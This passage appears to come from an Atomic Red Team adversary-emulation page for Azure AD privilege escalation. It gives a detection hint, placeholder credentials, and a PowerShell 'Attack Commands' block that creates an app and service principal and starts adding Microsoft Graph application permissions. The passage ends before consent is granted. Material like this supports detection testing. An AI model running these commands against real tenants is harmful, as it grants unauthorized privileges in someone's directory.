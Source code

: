 The account you use to run the PowerShell command should have Global Administrator/Application Administrator/Cloud Application Administrator role in your Azure AD.

Detection hint - check Operation Name "Add app role assignment to service principal" in subscriptions Activity Logs.
You can also take a look at the materials:
https://learnsentinel.blog/2022/01/04/azuread-privesc-sentinel/
https://github.com/reprise99/Sentinel-Queries
https://docs.google.com/presentation/d/1AWx1w0Xcq8ENvOmSjAJswEgEio-il09QWZlGg9PbHqE/edit#slide=id.g10460eb209c_0_2766
https://gist.github.com/andyrobbins/7c3dd62e6ed8678c97df9565ff3523fb

**Supported Platforms:** Azure-ad

**auto_generated_guid:** 94ea9cc3-81f9-4111-8dde-3fb54f36af4b

#### Inputs:

| Name                   | Description                                                                    | Type   | Default Value                     |
| ---------------------- | ------------------------------------------------------------------------------ | ------ | --------------------------------- |
| username               | Azure AD username                                                              | string | jonh@contoso.com                  |
| password               | Azure AD password                                                              | string | p4sswd                            |
| application_name       | Name of the targeted application that will be created                          | string | test_app                          |
| application_permission | Permission from Microsoft Graph Resource API that will be added to application | string | DirectoryRecommendations.Read.All |

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module -Name AzureAD
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzureAD -Credential $Credential

$aadApplication = New-AzureADApplication -DisplayName "#{application_name}"
$servicePrincipal = New-AzureADServicePrincipal -AppId $aadApplication.AppId
#$aadApplication = Get-AzureADApplication -Filter "DisplayName eq '#{application_name}'"

#Get Service Principal of Microsoft Graph Resource API
$graphSP = Get-AzureADServicePrincipal -Filter "DisplayName eq 'Microsoft Graph'"

#Initialize RequiredResourceAccess for Microsoft Graph Resource API
$requiredGraphAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$requiredGraphAccess.ResourceAppId = $graphSP.AppId
$requiredGraphAccess.ResourceAccess = New-Object System.Collections.Generic.List[Microsoft.Open.AzureAD.Model.ResourceAccess]

#Set Application Permissions
$ApplicationPermissions = @('#{application_permission}')

$reqPermission = $graphSP.AppRoles | Where-Object {$_.Value -eq $ApplicationPermissions}
if($reqPermission)
{
$resourceAccess = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$resourceAccess.Type = "Role"
$resourceAccess.Id = $reqPermission.Id
#Add required app permission
$requiredGraphAccess.ResourceAccess.Add($resourceAccess)
}
else
{
Write-Host "App permission $permission not found in the Graph Resource API" -ForegroundColor Red
}
```